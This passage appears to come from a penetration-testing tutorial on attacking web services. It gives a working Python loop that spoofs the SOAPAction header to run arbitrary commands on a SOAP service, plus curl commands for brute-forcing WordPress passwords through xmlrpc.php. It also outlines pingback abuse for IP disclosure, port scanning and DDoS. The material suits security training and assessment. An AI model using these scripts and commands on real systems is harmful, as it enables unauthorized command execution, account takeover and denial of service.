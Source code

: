 - We specify *LoginRequest* in `<soap:Body>`, so that our request goes through. **This operation is allowed from the outside**.
- We specify the parameters of *ExecuteCommand* because we want to have the SOAP service execute a `whoami` command.
- We specify the blocked operation (*ExecuteCommand*) in the SOAPAction header

If the web service determines the operation to be executed based solely on the SOAPAction header, we may bypass the restrictions and have the SOAP service execute a whoami command. If you want to be able to specify multiple commands and see the result each time, use the following Python script:
```python
import requests

while True:
    cmd = input("$ ")
    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>{cmd}</cmd></LoginRequest></soap:Body></soap:Envelope>'
    print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```

## Attacking WordPress xmlrpc.php

It is important to note that `xmlrpc.php`{: .filepath} being enabled on a WordPress instance is not a vulnerability. Depending on the methods allowed, `xmlrpc.php`{: .filepath} can facilitate some enumeration and exploitation activities, though.

Suppose we are assessing the security of a WordPress instance. Through enumeration activities, we identified a valid username, *admin*, and that xmlrpc.php is enabled. Identifying if xmlrpc.php is enabled is as easy as requesting xmlrpc.php on the domain we are assessing. We can mount a password brute-forcing attack through xmlrpc.php:
```console
zero@pio$ curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://<TARGET>/xmlrpc.php
```

To identified the correct method (*system.listMethods*) you can check the [WordPress Code](https://codex.wordpress.org/XML-RPC/system.listMethods) and interacting with xmlrpc.php as:
```console
zero@pio$  curl -s -X POST -d "<methodCall><methodName>system.listMethods</methodName></methodCall>" http://<TARGET>/xmlrpc.php

...
```

Inside the list of available methods above, check for one vulnerable, for example [pingback.ping](https://codex.wordpress.org/XML-RPC_Pingback_API). Unfortunately, if pingbacks are available, they can facilitate:
- **IP Disclosure**: identify its public IP, the pingback should point to an attacker-controlled host (such as a VPS) accessible by the WordPress instance
- **Cross-Site Port Attack** (**XSPA**): open ports or internal hosts can be identified by looking for response time differences or response differences
- **Distributed Denial of Service Attack** (**DDoS**): an attacker can call the pingback.ping method on numerous WordPress instances against a single target 
